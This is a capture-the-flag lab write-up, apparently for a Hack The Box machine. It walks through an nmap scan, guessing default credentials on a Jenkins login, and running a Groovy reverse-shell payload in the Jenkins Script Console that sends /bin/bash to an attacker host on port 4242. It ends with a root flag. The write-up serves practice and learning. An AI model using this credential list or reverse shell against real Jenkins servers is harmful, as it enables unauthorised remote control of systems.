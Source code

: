 ## ** Machine IP **
> 10.129.93.180
## ** Inference **
1. Nmap Scan `nmap -sC -sV 10.129.93.180`
2. *Jetty 9.4.39.v20210325* open on port 8080
3. Opened `10.129.93.180:8080` in browser. Offered a login screen with Jetty service.
4. Used Default credentials 
>	admin:password<br>
>	admin:admin<br>
>	root:root<br>
>	root:password<br>
>	admin:admin1<br>
>	admin:password1<br>
>	root:password1<br>
5. Signed in with credential
>	**username**:root<br>
>	**password**:password<br>
6. Using jenkins Version `Jenkins 2.289.1`
7. Manage Jenkine > Script Console
8. Accepts only grrovy script So used the following payload
>	String host="10.10.14.180";<br>
>	int port=4242;<br>
>	String cmd="/bin/bash";<br>
>	Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=newSocket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();OutputStreampo=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
## **Result**
Root Flag found in `/root/flag.txt` :- *9cdfb439c7876e703e307864c9167a15*
